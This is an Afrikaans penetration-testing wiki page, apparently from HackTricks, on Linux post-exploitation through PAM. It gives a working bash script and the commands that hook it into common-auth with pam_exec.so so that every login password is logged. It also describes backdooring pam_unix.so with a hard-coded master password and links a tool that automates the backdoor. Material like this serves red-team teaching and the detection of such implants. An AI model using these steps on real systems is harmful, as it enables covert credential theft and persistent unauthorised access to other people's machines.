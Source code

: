 # Linux Post-Exploitation

{{#include ../../banners/hacktricks-training.md}}

## Snuffeling van Aanmeldwagwoorde met PAM

Kom ons konfigureer 'n PAM-module om elke wagwoord wat elke gebruiker gebruik om aan te meld, te log. As jy nie weet wat PAM is nie, kyk:

{{#ref}}
pam-pluggable-authentication-modules.md
{{#endref}}

**Vir verdere besonderhede, kyk na die [oorspronklike pos](https://embracethered.com/blog/posts/2022/post-exploit-pam-ssh-password-grabbing/)**. Dit is net 'n opsomming:

**Tegniek Oorsig:**
Pluggable Authentication Modules (PAM) bied buigsaamheid in die bestuur van outentisering op Unix-gebaseerde stelsels. Hulle kan sekuriteit verbeter deur aanmeldprosesse aan te pas, maar kan ook risiko's inhou as dit verkeerd gebruik word. Hierdie opsomming skets 'n tegniek om aanmeldbesonderhede te vang met behulp van PAM, saam met mitigasiestrategieë.

**Vang van Besonderhede:**

- 'n bash-skrip genaamd `toomanysecrets.sh` word geskep om aanmeldpogings te log, wat die datum, gebruikersnaam (`$PAM_USER`), wagwoord (via stdin), en afstandsbediener IP (`$PAM_RHOST`) na `/var/log/toomanysecrets.log` vang.
- Die skrip word uitvoerbaar gemaak en geïntegreer in die PAM-konfigurasie (`common-auth`) met behulp van die `pam_exec.so` module met opsies om stil te loop en die outentiseringstoken aan die skrip bloot te stel.
- Die benadering demonstreer hoe 'n gecompromitteerde Linux-gasheer benut kan word om besonderhede diskreet te log.
```bash
#!/bin/sh
echo " $(date) $PAM_USER, $(cat -), From: $PAM_RHOST" >> /var/log/toomanysecrets.log
sudo touch /var/log/toomanysecrets.sh
sudo chmod 770 /var/log/toomanysecrets.sh
sudo nano /etc/pam.d/common-auth
# Add: auth optional pam_exec.so quiet expose_authtok /usr/local/bin/toomanysecrets.sh
sudo chmod 700 /usr/local/bin/toomanysecrets.sh
```
### Backdooring PAM

**Vir verdere besonderhede, kyk na die [oorspronklike pos](https://infosecwriteups.com/creating-a-backdoor-in-pam-in-5-line-of-code-e23e99579cd9)**. Dit is net 'n opsomming:

Die Pluggable Authentication Module (PAM) is 'n stelsel wat onder Linux gebruik word vir gebruikersverifikasie. Dit werk op drie hoofkonsepte: **gebruikersnaam**, **wagwoord**, en **diens**. Konfigurasie lêers vir elke diens is geleë in die `/etc/pam.d/` gids, waar gedeelde biblioteke verifikasie hanteer.

**Doel**: Wysig PAM om verifikasie met 'n spesifieke wagwoord toe te laat, terwyl die werklike gebruikerswagwoord omseil word. Dit fokus veral op die `pam_unix.so` gedeelde biblioteek wat deur die `common-auth` lêer gebruik word, wat deur byna alle dienste ingesluit word vir wagwoordverifikasie.

### Stappe om `pam_unix.so` te wysig:

1. **Vind die Verifikasie Riglyn** in die `common-auth` lêer:
- Die lyn wat verantwoordelik is vir die nagaan van 'n gebruiker se wagwoord roep `pam_unix.so` aan.
2. **Wysig die Bronnekode**:
- Voeg 'n voorwaardelike verklaring in die `pam_unix_auth.c` bronne lêer by wat toegang verleen as 'n vooraf gedefinieerde wagwoord gebruik word, anders gaan dit voort met die gewone verifikasieproses.
3. **Herskryf en Vervang** die gewysigde `pam_unix.so` biblioteek in die toepaslike gids.
4. **Toetsing**:
- Toegang word verleen oor verskeie dienste (inlog, ssh, sudo, su, skermsaver) met die vooraf gedefinieerde wagwoord, terwyl normale verifikasieprosesse onaangeraak bly.

> [!NOTE]
> Jy kan hierdie proses outomatiseer met [https://github.com/zephrax/linux-pam-backdoor](https://github.com/zephrax/linux-pam-backdoor)

{{#include ../../banners/hacktricks-training.md}}
